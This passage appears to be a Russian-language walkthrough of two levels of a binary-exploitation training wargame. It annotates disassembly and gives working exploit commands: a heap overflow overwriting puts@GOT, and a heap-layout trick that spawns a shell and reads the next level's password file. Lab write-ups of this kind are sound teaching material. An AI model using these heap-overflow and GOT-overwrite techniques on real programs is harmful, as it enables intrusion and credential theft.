0x0804857a <+89>:  call 0x80483f0 <malloc@plt> # вызов malloc(8)
0x0804857f <+94>:  mov  %eax,%edx       # в edx сохранен адрес выделенной вызовом malloc памяти
                                        # x/a $eax -> 0x804a038 на 8 байт
0x08048581 <+96>:  mov  0x18(%esp),%eax # лок_перем_2 положена в регистр eax
0x08048585 <+100>: mov  %edx,0x4(%eax)  # адрес памяти, выделенной 3м вызовом malloc, 
                                        # присвоен лок_перем_2 со смещением 4
                                        #            ||
                                        #            \/
                                        # лок_перем_2      - это структура, которая хранит в себе:
                                        # int some_int     - 4 байта
                                        # pointer some_ptr - 4 байта
                                        # ____________
                                        # итого 8 байт
                                        # 
                                        # лок_перем_2->some_int = 2;
                                        # лок_перем_2->some_ptr = malloc(8);
                                        # 

# 4. Подготовка к вызову strcpy():
0x08048588 <+103>: mov  0xc(%ebp),%eax  # eax присвоен адрес argv[0]
0x0804858b <+106>: add  $0x4,%eax       # eax смещено на 4, то есть присвоен адрес argv[1] 
0x0804858e <+109>: mov  (%eax),%eax     # eax присвоено значение argv[1] (строка с первым аргументом, переданным в программу)
0x08048590 <+111>: mov  %eax,%edx       # в edx сохранена строка с первым аргументом, переданным в программу
0x08048592 <+113>: mov  0x1c(%esp),%eax # лок_перем_1 положена в eax
0x08048596 <+117>: mov  0x4(%eax),%eax  # лок_перем_1->some_ptr получено из eax и передано в качестве первого аргумента в strcpy()
0x08048599 <+120>: mov  %edx,0x4(%esp)  # argv[1] передано в качестве второго аргумента в strcpy()
0x0804859d <+124>: mov  %eax,(%esp)     #
0x080485a0 <+127>: call 0x80483e0 <strcpy@plt> # вызов strcpy(лок_перем_1->some_ptr, argv[1])

# 5. Подготовка к вызову strcpy():
0x080485a5 <+132>: mov  0xc(%ebp),%eax  # eax присвоен адрес argv[0]
0x080485a8 <+135>: add  $0x8,%eax       # eax смещено на 8, то есть присвоен адрес argv[2] 
0x080485ab <+138>: mov  (%eax),%eax     # eax присвоено значение argv[2] (строка с первым аргументом, переданным в программу)
0x080485ad <+140>: mov  %eax,%edx       # в edx сохранена строка с первым аргументом, переданным в программу
0x080485af <+142>: mov  0x18(%esp),%eax # лок_перем_2 положена в eax
0x080485b3 <+146>: mov  0x4(%eax),%eax  # лок_перем_2->some_ptr получено из eax и передано в качестве первого аргумента в strcpy()
0x080485b6 <+149>: mov  %edx,0x4(%esp)  # argv[2] передано в качестве второго аргумента в strcpy()
0x080485ba <+153>: mov  %eax,(%esp)     #
0x080485bd <+156>: call 0x80483e0 <strcpy@plt> # вызов strcpy(лок_перем_2->some_ptr, argv[2])

# 6. Подготовка к вызову fgets():
    # 6.1. Подготовка к вызову fopen()():
    0x080485c2 <+161>:   mov    $0x80486e9,%edx # x/s 0x80486e9 -> 0x80486e9: "r"
    0x080485c7 <+166>:   mov    $0x80486eb,%eax # x/s 0x80486eb -> 0x80486eb: "/home/user/level8/.pass"
    0x080485cc <+171>:   mov    %edx,0x4(%esp)  # "r" передано в качестве второго аргумента в fopen()
    0x080485d0 <+175>:   mov    %eax,(%esp)     # "/home/user/level8/.pass"передано в качестве первого аргумента в fopen()
    0x080485d3 <+178>:   call   0x8048430 <fopen@plt> # вызов fopen("/home/user/level8/.pass", "r")

    # 6.2. Подготовка к вызову fgets()():
0x080485d8 <+183>:   mov    %eax,0x8(%esp)      # значение, возвращенное fopen() передано в качестве третьего аргумента в fgets()
0x080485dc <+187>:   movl   $0x44,0x4(%esp)     # значение 44 (hex) = 68 (dec) передано в качестве второго аргумента в fgets()
0x080485e4 <+195>:   movl   $0x8049960,(%esp)   # адрес глобальной переменной "c" передано в качестве первого аргумента в fgets()
0x080485eb <+202>:   call   0x80483c0 <fgets@plt> # вызов fgets(c, 68, fopen("/home/user/level8/.pass", "r"));

# 7. Подготовка к вызову puts():
   0x080485f0 <+207>:   movl   $0x8048703,(%esp) # x/s 0x8048703 -> "~~" передано в качестве аргумента в puts()
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax

# 8. Завершение и выход из функции main()
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret    
End of assembler dump.
```
___
</details> 

Из анализа `main()` (пункт 6 в развороте) видно, что программа открывает, читает и записывает в глобальную переменную `c` файл `/home/user/level8/.pass`.

После этого печатает с помощью `puts` строку `"~~\n"`.

Также в программе есть функция `m()` по адресу [0x080484f4](#level7_m), которая печатает глобальную переменную `c`.

Уязвимость:
1. Использование `strcpy()` без проверки длины передаваемой для копирования строки.

Атака:
1. Переполнение буфера
2. Подмена адреса первого аргумента во втором вызове strcpy() на адрес puts(), чтобы записать на место этого адреса адрес m(). Таким образом вместо вызываемого в дальнейшем puts("~~"), будет вызвана m():<br>
<details><summary>strcpy( адрес p(), адрес m() )</summary>

```sh
# Адрес puts():
gdb level7
(gdb) disassemble puts
# ||
# \/
# Dump of assembler code for function puts@plt:
#    0x08048400 <+0>:     jmp    *0x8049928       !!!!!!!!!!!!!
#    0x08048406 <+6>:     push   $0x28
#    0x0804840b <+11>:    jmp    0x80483a0
# End of assembler dump.

ltrace ./level7 A B
# ||
# \/
# __libc_start_main(0x8048521, 3, 0xbffff6e4, 0x8048610, 0x8048680 <unfinished ...>
#                                          - из disassemble main():
# malloc(8)                   = 0x0804a008 - указатель на структуру (int 4 bytes, pointer 4 bytes)
# malloc(8)                   = 0x0804a018 - положена память в 8 байт для строки в pointer структуры
# malloc(8)                   = 0x0804a028 - указатель на структуру (int 4 bytes, pointer 4 bytes)
# malloc(8)                   = 0x0804a038 - положена память в 8 байт для строки в pointer структуры
# strcpy(0x0804a018, "A")     = 0x0804a018
# strcpy(0x0804a038, "B")     = 0x0804a038
# fopen("/home/user/level8/.pass", "r")  = 0
# fgets( <unfinished ...>
# --- SIGSEGV (Segmentation fault) ---
# +++ killed by SIGSEGV +++
```
Обращаюсь к строкам: \
`strcpy(0x0804a018, "A") = 0x0804a018` \
`strcpy(0x0804a038, "B") = 0x0804a038` \
Задача: `strcpy(0x0804a038, "B")` превратить в `strcpy(адрес p() 0x8049928, адрес m() 0x080484f4)` .\
С помощью [сайта](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/) генерирую строку для расчета смещения и запускаю ltrace: 
```sh
ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9 B
# ...
# strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9") = 0x0804a018
# strcpy(0x37614136, "B" <unfinished ...>
# ...
```
```sh
                                          strcpy(0x37614136,     "B" <unfinished ...>
||                               ASCII -> hex     |____    |     |_________    |
\/____________________________________________________|____|_______________|___|
strcpy(0x37614136, "B" <unfinished ...>` это `strcpy(0x7aA6,               |"B"|
||                                                    |    |               |   |
\/____________________________________________________|____|_______________|   |
                                  Aa0Aa1Aa2Aa3Aa4Aa5Aa 6Aa7 Aa8Aa9         |   |
||                                                    |    |               |   |
\/____________________________________________________|____|____________   |   |
A a 0 A a 1 A a 2 A  a  3  A  a  4  A  a  5  A  a      6Aa7  Aa8Aa9        |   |
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20    |    |               |   |
||                                                 ___|    |__________     |   |________________
\/________________________________________________|__________________|_____|___________________|
A a 0 A a 1 A a 2 A  a  3  A  a  4  A  a  5  A  a  \x28 \x99 \x04 \x08      \xf4 \x84 \x04 \x08   
                                                   p() 0x08049928           m() 0x080484f4
```
Смещение 20.
</details> 

Смещение 20 (подробности в развороте выше).\
Атакую:
```sh
./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]') 
# ||
# \/
# 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
#  - 1679646253
```
Уровень пройден!
```sh
su level8
# Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "string.h"
#include "stdio.h"
#include "sys/types.h"
#include "sys/stat.h"
#include "fcntl.h"

char c[80];

struct internet {

    int priority;
    char *name;

};

void m(void) {

    printf("%s - %d\n", c, time(NULL));

}

int main(int argc, char **argv) {

    struct internet *i1, *i2, *i3;

    i1 = malloc(sizeof(struct internet));
    i1->priority = 1;
    i1->name = malloc(8);

    i2 = malloc(sizeof(struct internet));
    i2->priority = 2;
    i2->name = malloc(8);

    strcpy(i1->name, argv[1]);
    strcpy(i2->name, argv[2]);
    fgets(c, 68, fopen("/home/user/level8/.pass", "r"));

    printf("~~\n");
    return (0);

}

</pre>
gcc -m32 -z execstack -Wl,-z,norelro -fno-stack-protector исходник_level.c -o level
</details> 

#
###### [вернуться к содержанию](#content)
<a name="lvl8"></a> 
# level8

<!-- <pre>
level0@RainFall:~$ su level8
<font color=grey>Password: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9</font>

RELRO      STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
<font class=off>No RELRO   No canary found   NX disabled   No PIE</font>          <font class=on>No RPATH   No RUNPATH</font>   <font class=filePath>/home/user/level8/level8</font>
</pre> -->


Проверяю содержимое домашней директории пользователя и свойства содержимого: 
<details><summary> ls -la </summary>

```sh
ls -la
# ||
# \/
# -rwsr-s---+ 1 level9 users  6057 Mar  6  2016 level8
```
---
</details>
<details><summary> getfacl level8 </summary>

```sh
getfacl level8 
# ||
# \/
# owner: level9
# flags: ss-
```
---

</details>
<details><summary> ./level8 </summary>

```sh
./level8 
# ||
# \/
# (nil), (nil) 
# AA, AA
# (nil), (nil) 
# ^C
```
---

</details>
<details><summary> ltrace ./level8 </summary>

```sh
ltrace ./level8 
# ||
# \/
# __libc_start_main(0x8048564, 1, 0xbffff6f4, 0x8048740, 0x80487b0 <unfinished ...>
# printf("%p, %p \n", (nil), (nil)(nil), (nil) 
# )                                    = 14
# fgets(AAAA
# "AAAA\n", 128, 0xb7fd1ac0)                                     = 0xbffff5d0
# printf("%p, %p \n", (nil), (nil)(nil), (nil) 
# )                                    = 14
# fgets(AAAA
# "AAAA\n", 128, 0xb7fd1ac0)                                     = 0xbffff5d0
# printf("%p, %p \n", (nil), (nil)(nil), (nil) 
# )                                    = 14
# fgets(^C <unfinished ...>
# --- SIGINT (Interrupt) ---
# +++ killed by SIGINT +++
```
---

</details>
<details><summary> gdb level8 -> disassemble на список функций </summary>

```sh
gdb level8
(gdb) disassemble #Tab
# ||
# \/
# auth
# service
# main
# fgets
# stdin@@GLIBC_2.0
# stdout@@GLIBC_2.0
# strcpy
# free
# strdup
# fwrite
# system
# malloc
# printf
```
---
</details>


<br><br>
Коротко:

<details> <summary>auth - глобальная переменная </summary>

```sh
(gdb) disassemble auth
No function contains specified address.
(gdb) x &auth
0x8049aac <auth>:       0x00000000
```
---

</details>


<details> <summary>service - глобальная переменная </summary>

```sh
(gdb) disassemble service 
No function contains specified address.
(gdb) x &service 
0x8049ab0 <service>:    0x00000000
```
---

</details>

<details> 
  <summary> main() </summary>

```sh
(gdb) disassemble main
# Dump of assembler code for function main:
# 1. создается стековый фрейм (stack frame) или кадр стека:
0x08048564 <+0>:   push %ebp              # сохраняет в стеке содержимое регистра EBP
0x08048565 <+1>:   mov  %esp,%ebp         # присваивает регистру EBP значение ESP
0x08048567 <+3>:   push %edi
0x08048568 <+4>:   push %esi
0x08048569 <+5>:   and  $0xfffffff0,%esp  # выравнивание стека (по 16 байт)
0x0804856c <+8>:   sub  $0xa0,%esp        # выделяется a0 (hex) = 160 (dec) байт под локальные переменные
# (gdb) info registers
# ||
# \/
# esp            0xbffff630       0xbffff630
# ebp            0xbffff638       0xbffff638
# esi            0x0      0
# edi            0x0      0
# eip            0x804856c        0x804856c <main+8>

0x08048572 <+14>:  jmp  0x8048575 <main+17> # перейти сразу к <main+17>
0x08048574 <+16>:  nop                      # ничего не делать (наш \x90 NOP-срез в лвл1, лвл2 так выглядит на asm)

# 2. Подготовка к вызову printf():
0x08048575 <+17>:  mov  0x8049ab0,%ecx  # x -> 0x8049ab0 <service>:  0x00000000
#                                       # глобальная переменная service помещается в регистр ecx
0x0804857b <+23>:  mov  0x8049aac,%edx  # x -> 0x8049aac <auth>:  0x00000000
#                                       # глобальная переменная auth помещается в регистр edx
0x08048581 <+29>:  mov  $0x8048810,%eax # x/s 0x8048810 -> "%p, %p \n"
#                                       # строка "%p, %p \n" помещается в регистр eax
0x08048586 <+34>:  mov  %ecx,0x8(%esp)  # передана глобальная переменная service 3м аргументом
0x0804858a <+38>:  mov  %edx,0x4(%esp)  # передана глобальная переменная auth    2м аргументом
0x0804858e <+42>:  mov  %eax,(%esp)     # передана строка "%p, %p \n"            1м аргументом
0x08048591 <+45>:  call 0x8048410 <printf@plt> # вызов printf("%p, %p \n", auth, service);

# 3. Подготовка к вызову fgets():
0x08048596 <+50>:  mov  0x8049a80,%eax   # x/x 0x8049a80 <stdin@@GLIBC_2.0>:   0xc0
0x0804859b <+55>:  mov  %eax,0x8(%esp)   # передано stdin           3м аргументом
0x0804859f <+59>:  movl $0x80,0x4(%esp)  # передан  размер буфера
#                                        # 80 (hex) = 128 (dec)     2м аргументом
0x080485a7 <+67>:  lea  0x20(%esp),%eax  # получен адрес буфера в 128 байт - локальная переменная
0x080485ab <+71>:  mov  %eax,(%esp)      # передан этот буфер       1м аргументом
0x080485ae <+74>:  call 0x8048440 <fgets@plt> # вызов fgets(буфер, 128, stdin)
# 4. Сравнение возвращаемого значения fgets() с NULL:
0x080485b3 <+79>:  test %eax,%eax        # сравнивает значение, возвращенное fgets() с NULL
0x080485b5 <+81>:  je   0x804872c <main+456> # если совпало, перейти в конец main()

# 5. if ...
# 5.1. сравнение буфера и строки "auth "
0x080485bb <+87>:  lea  0x20(%esp),%eax  # получен адрес буфера в 128 байт - локальная переменная
0x080485bf <+91>:  mov  %eax,%edx        # буфер помещается в регистр edx
0x080485c1 <+93>:  mov  $0x8048819,%eax  # строка "auth " (x/s 0x8048819) помещается в регистр eax
0x080485c6 <+98>:  mov  $0x5,%ecx        # число 5                        помещается в регистр ecx
0x080485cb <+103>: mov  %edx,%esi        # буфер                          помещается в регистр esi
0x080485cd <+105>: mov  %eax,%edi        # строка "auth "                 помещается в регистр edi
0x080485cf <+107>: repz cmpsb %es:(%edi),%ds:(%esi) # сравнивает буфер и строку "auth " 
# cmpsb (сравнивает последовательность байтов https://av-assembler.ru/instructions/cmpsb.php)
# repz https://sysprog.ru/post/komandy-rep-repe-repne-repnz-repz
# сравнение буфера и строки будет происходить до 5 символов (...<+98>:  mov  $0x5,%ecx)
0x080485d1 <+109>: seta %dl
0x080485d4 <+112>: setb %al
0x080485d7 <+115>: mov  %edx,%ecx
0x080485d9 <+117>: sub  %al,%cl
0x080485db <+119>: mov  %ecx,%eax
0x080485dd <+121>: movsbl%al,%eax       # результат сравнения помещен в eax
# 5.2. Проверка условия - равна ли строка и буфер (ноль ли от их сравнения):
0x080485e0 <+124>: test %eax,%eax       # сравнивает значение с NULL
0x080485e2 <+126>: jne  0x8048642 <main+222> # строки не совпали - перейти к пункту
# 5.3. Если строки совпали:
# 5.3.1. вызов malloc():
0x080485e4 <+128>: movl $0x4,(%esp)     # в malloc передано 4
0x080485eb <+135>: call 0x8048470 <malloc@plt> # вызов malloc(4)
0x080485f0 <+140>: mov  %eax,0x8049aac  # глобальной переменной auth присвоен адрес возвращенной памяти
# 5.3.2. занулить глобальную переменную auth:
0x080485f5 <+145>: mov  0x8049aac,%eax  # auth помещено в регистр eax
0x080485fa <+150>: movl $0x0,(%eax)     # auth занулен
# 5.3.3. далее:
0x08048600 <+156>: lea  0x20(%esp),%eax # получаю буфер
0x08048604 <+160>: add  $0x5,%eax       # смещаюсь на 5 байт по адресу буфера буфер+5
0x08048607 <+163>: movl $0xffffffff,0x1c(%esp)
0x0804860f <+171>: mov  %eax,%edx
0x08048611 <+173>: mov  $0x0,%eax
0x08048616 <+178>: mov  0x1c(%esp),%ecx
0x0804861a <+182>: mov  %edx,%edi
0x0804861c <+184>: repnz scas %es:(%edi),%al
0x0804861e <+186>: mov  %ecx,%eax
0x08048620 <+188>: not  %eax
0x08048622 <+190>: sub  $0x1,%eax
# 5.3.4. сравнение:
0x08048625 <+193>: cmp  $0x1e,%eax # сравниваю результат с 1e(hex) = 30(dec)
0x08048628 <+196>: ja   0x8048642 <main+222> # если результат <= 30, перехожу к пункту 6.
# 5.3.5. подготовка и вызов strcpy():
0x0804862a <+198>: lea  0x20(%esp),%eax # получаю буфер
0x0804862e <+202>: lea  0x5(%eax),%edx  # смещаюсь на 5 байт по адресу буфера буфер+5
0x08048631 <+205>: mov  0x8049aac,%eax  # auth gпомещаю в eax
0x08048636 <+210>: mov  %edx,0x4(%esp)  # буфер + 5 передаю 2м аргументом
0x0804863a <+214>: mov  %eax,(%esp)     # auth      передаю 1м аргументом
0x0804863d <+217>: call 0x8048460 <strcpy@plt> # вызов strcpy(auth, буфер + 5);

# 6. if ...
# 6.1. Алалогично пункту 5 сравнение буфера и некоторой жестко заданной строки:
0x08048642 <+222>: lea  0x20(%esp),%eax  # получен адрес буфера в 128 байт - локальная переменная
0x08048646 <+226>: mov  %eax,%edx        # буфер помещается в регистр edx
0x08048648 <+228>: mov  $0x804881f,%eax  # строка "reset" (x/s 0x804881f) помещается в регистр eax
0x0804864d <+233>: mov  $0x5,%ecx        # число 5                        помещается в регистр ecx
0x08048652 <+238>: mov  %edx,%esi        # буфер                          помещается в регистр esi
0x08048654 <+240>: mov  %eax,%edi        # строка "reset"                 помещается в регистр edi
0x08048656 <+242>: repz cmpsb %es:(%edi),%ds:(%esi) # сравнивает буфер и строку "reset" 
0x08048658 <+244>: seta %dl
0x0804865b <+247>: setb %al
0x0804865e <+250>: mov  %edx,%ecx
0x08048660 <+252>: sub  %al,%cl
0x08048662 <+254>: mov  %ecx,%eax
0x08048664 <+256>: movsbl %al,%eax       # результат сравнения помещен в eax
# 6.2. Проверка условия - равна ли строка и буфер (ноль ли от их сравнения):
0x08048667 <+259>: test %eax,%eax        # сравнивает значение с NULL
0x08048669 <+261>: jne  0x8048678 <main+276> # если строки не совпали, перейти к пункту 7.
# 6.3. Подготовка к вызову и вызов free():
0x0804866b <+263>: mov  0x8049aac,%eax   # получен адрес auth
0x08048670 <+268>: mov  %eax,(%esp)      # auth передан аргументом
0x08048673 <+271>: call 0x8048420 <free@plt> # вызов free(auth)

# 7.
# 7.1. Алалогично пункту 5 сравнение буфера и некоторой жестко заданной строки:
0x08048678 <+276>: lea  0x20(%esp),%eax  # получен адрес буфера в 128 байт - локальная переменная
0x0804867c <+280>: mov  %eax,%edx        # буфер помещается в регистр edx
0x0804867e <+282>: mov  $0x8048825,%eax  # строка "service" (x/s 0x8048825) помещается в регистр eax
0x08048683 <+287>: mov  $0x6,%ecx        # число 6                          помещается в регистр ecx
0x08048688 <+292>: mov  %edx,%esi        # буфер                            помещается в регистр esi
0x0804868a <+294>: mov  %eax,%edi        # строка "service"                 помещается в регистр edi
0x0804868c <+296>: repz cmpsb %es:(%edi),%ds:(%esi) # сравнивает буфер и строку "service" 
0x0804868e <+298>: seta %dl
0x08048691 <+301>: setb %al
0x08048694 <+304>: mov  %edx,%ecx
0x08048696 <+306>: sub  %al,%cl
0x08048698 <+308>: mov  %ecx,%eax
0x0804869a <+310>: movsbl %al,%eax
# 7.2. Проверка условия - равна ли строка и буфер (ноль ли от их сравнения):
0x0804869d <+313>: test %eax,%eax        # сравнивает значение с NULL
0x0804869f <+315>: jne  0x80486b5 <main+337> # если строки не совпали, перейти к пункту 8.
# 7.3. Подготовка и вызов вызов strdup():
0x080486a1 <+317>: lea  0x20(%esp),%eax # получен адрес буфера в 128 байт - локальная переменная
0x080486a5 <+321>: add  $0x7,%eax       # в eax положен адрес буфер+7
0x080486a8 <+324>: mov  %eax,(%esp)     # буфер+7 передано аргументом в strdup()
0x080486ab <+327>: call 0x8048430 <strdup@plt> # вызов strdup(буфер + 7)
0x080486b0 <+332>: mov  %eax,0x8049ab0  #  service = strdup(буфер + 7)     x -> 0x8049ab0 <service>

# 8.
# 8.1. Алалогично пункту 5 сравнение буфера и некоторой жестко заданной строки:
0x080486b5 <+337>: lea  0x20(%esp),%eax  # получен адрес буфера в 128 байт - локальная переменная
0x080486b9 <+341>: mov  %eax,%edx        # буфер помещается в регистр edx
0x080486bb <+343>: mov  $0x804882d,%eax  # строка "login" (x/s 0x804882d) помещается в регистр eax
0x080486c0 <+348>: mov  $0x5,%ecx        # число 5                        помещается в регистр ecx
0x080486c5 <+353>: mov  %edx,%esi        # буфер                          помещается в регистр esi
0x080486c7 <+355>: mov  %eax,%edi        # строка "login"                 помещается в регистр edi
0x080486c9 <+357>: repz cmpsb %es:(%edi),%ds:(%esi) # сравнивает буфер и строку "login" 
0x080486cb <+359>: seta %dl
0x080486ce <+362>: setb %al
0x080486d1 <+365>: mov  %edx,%ecx
0x080486d3 <+367>: sub  %al,%cl
0x080486d5 <+369>: mov  %ecx,%eax
0x080486d7 <+371>: movsbl %al,%eax
# 8.2. Проверка условия - равна ли строка и буфер (ноль ли от их сравнения):
0x080486da <+374>: test %eax,%eax        # сравнивает значение с NULL
0x080486dc <+376>: jne  0x8048574 <main+16> # если строки не совпали, перейти к пункту 2.
# Ага!!!! Значит от <main+16> до <main+376> это огромный цикл!!!!
# И пункт 8 - последний в цикле. Если условие выполняется, 
# то цикл максимум заканчивается на строке <main+451>

# 8.2.1. Проверка данных внутри глобальной переменной auth:
0x080486e2 <+382>: mov  0x8049aac,%eax          # глобальная переменная auth помещена в регистр eax
0x080486e7 <+387>: mov  0x20(%eax),%eax         # 20(hex)=32(dec) - обращение внутри auth к данным, после 32 байта 
0x080486ea <+390>: test %eax,%eax               # сравниваются с 0 данные 0x20(%eax)
0x080486ec <+392>: je   0x80486ff <main+411>    # данные были пустыми, переходим к пункту 8.2.3.
# 8.2.2. вызов system():
0x080486ee <+394>: movl $0x8048833,(%esp)       # "/bin/sh" передано аргументом
0x080486f5 <+401>: call 0x8048480 <system@plt>  # вызов system("/bin/sh")
0x080486fa <+406>: jmp  0x8048574 <main+16>     # вернуться в начало цикла на пункт 2.
# 8.2.3. вызов fprintf():
0x080486ff <+411>: mov  0x8049aa0,%eax          # stdout положен в eax
0x08048704 <+416>: mov  %eax,%edx               # stdout положен в edx
0x08048706 <+418>: mov  $0x804883b,%eax         # x 0x804883b -> "Password:\n"
0x0804870b <+423>: mov  %edx,0xc(%esp)          # stdout        передан 4м аргументом
0x0804870f <+427>: movl $0xa,0x8(%esp)          # 10            передан 3м аргументом
0x08048717 <+435>: movl $0x1,0x4(%esp)          # 1             передан 2м аргументом
0x0804871f <+443>: mov  %eax,(%esp)             # "Password:\n" передан 1м аргументом
0x08048722 <+446>: call 0x8048450 <fwrite@plt>  # вызов fwrite("Password:\n", 1, 10, stdout)
0x08048727 <+451>: jmp  0x8048574 <main+16>     # вернуться в начало цикла на пункт 2.

# !!!! <main+16> до <main+451> это огромный цикл!!!!

# 9. Завершение и возврат из main()
0x0804872c <+456>: nop
0x0804872d <+457>: mov  $0x0,%eax
0x08048732 <+462>: lea  -0x8(%ebp),%esp
0x08048735 <+465>: pop  %esi
0x08048736 <+466>: pop  %edi
0x08048737 <+467>: pop  %ebp
0x08048738 <+468>: ret    
# End of assembler dump.
```

---

</details> 

Функция `main()` единственная не библиотечная функция программы.
<pre>
Внутри функции main() есть 
(нумерация из анализа disassemble main):

1. 
Начало программы. 
Создание буфера. 
Вход в бесконечный цикл {

2. Печатает адреса глобальных переменных auth, service 
printf("%p, %p \n", auth, service);  

3. Получает из ввода строку и кладет ее в буфер.

4. Проверка, удалось ли записать в буфер строку: 
if (fgets(буфер, 128, stdin) == NULL) break;

5. if: Начинается ли введенная строка с "auth"?
    5.1. и 5.2. Сравнение начала буфера и строки "auth ".
  Не совпало               5.3. Совпало        
  ||                               ||
  ||                               \/
  ||  5.3.1. Если введено было "auth ", то выделится память для глобальной переменной auth.
  ||  5.3.2. Выделенная память заполнится нулями, чтобы не было мусора.
  ||   
  ||  5.3.3. Расчет длины введенной строки. 
  ||  5.3.4. Если введено было "auth и_что-то_ещё", но "и_что-то_ещё" длиной 30 или менее символов, то
  ||  5.3.5. часть "и_что-то_ещё" (то есть введенная строка, начиная с 6го символа) будет записана в глобальную переменную "auth ".
  ||  strcpy(auth, буфер + 5);
  || 
  \/
6. if: Начинается ли введенная строка с "reset"?
    6.1. и 6.2. Сравнение начала буфера и строки "reset".
  Не совпало               6.3. Совпало        
  ||                               ||
  ||                               \/
  ||  6.3. Освобождение auth:
  ||       free(auth);
  || 
  \/
7. if: Начинается ли введенная строка с "service"?
    7.1. и 7.2. Сравнение начала буфера и строки "service".
  Не совпало               7.3. Совпало        
  ||                               ||
  ||                               \/
  ||  7.3. Если введено было "service_и_что-то_ещё", то часть "_и_что-то_ещё" (то есть введенная строка, начиная с 8го символа) будет записана в глобальную переменную service.
  ||          service = strdup(line + 7);
  || 
  \/
8. if: Начинается ли введенная строка с "login"?
    8.1. и 8.2. Сравнение начала буфера и строки "login".
  Не совпало                    Совпало        
  ||                               ||
  ||                               \/
  ||  8.2.1. Данные внутри auth, после 32 байта заполнены, вызывается system("/bin/sh")
  ||  8.2.2. Иначе: в терминал будет выведена строка "Password:\n".
  ||         fwrite("Password:\n", 1, 10, stdout)
  ||
  \/
2. Вернуться к началу цикла (пункт 2.).
}

9. Завершение программы.

</pre>


Задача: `... <+394> ... <+401> ` вызов `system("/bin/sh")`. \
Для этого заполнить данные внутри auth, после 32 байта. Пункт 5.3.4. не даст нам это заполнить напрямую вводом `auth и_что-то_достаточно_длинное_для_32_байт`.

Обходной путь:
```sh
./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service
0x804a008, 0x804a018 

auth 
0x804a028, 0x804a018 
service 
0x804a028, 0x804a038 
```
malloc выделяет память под запись в глобальные переменные со смещением 16 байт (каждое последующее выделение +10<sub>hex</sub> = 16<sub>dec</sub> 0x804a008, 0x804a018, 0x804a028, 0x804a038).

Значит, надо:  
1. выделить память под `auth` (ввести "auth " или "auth и_что-то_ещё_менее_31_символа"), далее 
2. выделить память под `service` + 16 или более символов, либо два раза выделить память под `service` например:
```sh
# это запишет данные в auth+32(dec)
serviceAAAABBBBCCCCDDDD
# 
# или
serviceeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
# 
# или
service
service
```
3. ввести `login`. И я попадаю в нужный пункт 8.2.1., где вызывается system("/bin/sh")
4. Запрашиваю содержимое файла с паролем от `level9`.

```sh
./level8  
# ||
# \/
# (nil), (nil) 
auth 
# 0x804a008, (nil) 
serviceggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg
0x804a008, 0x804a018 
login
$ whoami
# ||
# \/
# level9
$ cat /home/user/level9/.pass
# ||
# \/
# c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
Уровень пройден!
```sh
su level9
# Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
<details> 
  <summary> В развороте, как это выглядит в памяти. </summary>

```sh
# 1. Выделение памяти под auth:
(nil), (nil)            # печать в терминал при запуске программы
auth                    # введенная строка
# ||                    #
# \/                    #
(gdb) x/12xw 0x804a008  # как это выглядит в памяти:
0x804a008:      0x00000000      0x00000000      0x00000000      0x00020ff1
# ||
# \/
0x804a008, (nil)        # печать в терминал после ввода "auth "
##########################################################################

# 2. Заполнение auth+32. 

##########################################################################
# 2.1. Способ 1:
0x804a008, (nil)        # печать в терминал после ввода "auth "
serviceAAAABBBBCCCCDDDD # введенная строка
# ||                    #
# \/                    #
(gdb) x/12xw 0x804a008  # как это выглядит в памяти:
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000019
0x804a018:      0x41414141      0x42424242      0x43434343      0x44444444
0x804a028:      0x0000000a      0x00020fd9      0x00000000      0x00000000
# ||
# \/
0x804a008, 0x804a018    # печать в терминал после ввода "auth " и "serviceAAAABBBBCCCCDDDD"

##########################################################################
# 2.2. Способ 2:
0x804a008, (nil)        # печать в терминал после ввода "auth " и до первого ввода "service"
service                 # введенная строка
# ||                    #
# \/                    #
(gdb) x/12xw 0x804a008  # как это выглядит в памяти:
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00020fe1
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
# ||
# \/
0x804a008, 0x804a018    # печать в терминал после ввода "auth " и первого ввода "service"
service                 # введенная строка
# ||                    #
# \/                    #
(gdb) x/12xw 0x804a008  # как это выглядит в памяти:
0x804a008:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a018:      0x0000000a      0x00000000      0x00000000      0x00000011
0x804a028:      0x0000000a      0x00000000      0x00000000      0x00020fd1
# ||
# \/
0x804a008, 0x804a028    # печать в терминал после ввода "auth ", "service", "service"
```
</details> 

<details> 
  <summary> Под этой строкой в развороте исходник и команда для компиляции: </summary>
<pre>

#include "stdlib.h"
#include "unistd.h"
#include "string.h"
#include "sys/types.h"
#include "stdio.h"

struct auth {

    char name[32];
    int auth;

};

struct auth *auth;
char        *service;

int main(int argc, char **argv) {

    char  line[128];

    while(42) {

        printf("%p, %p \n", auth, service);

        if(fgets(line, sizeof(line), stdin) == NULL) break;

        if(strncmp(line, "auth ", 5) == 0) {

                auth = malloc(sizeof(auth));
                memset(auth, 0, sizeof(auth));
                if(strlen(line + 5) < 31) {

                        strcpy(auth->name, line + 5);

                }

        }

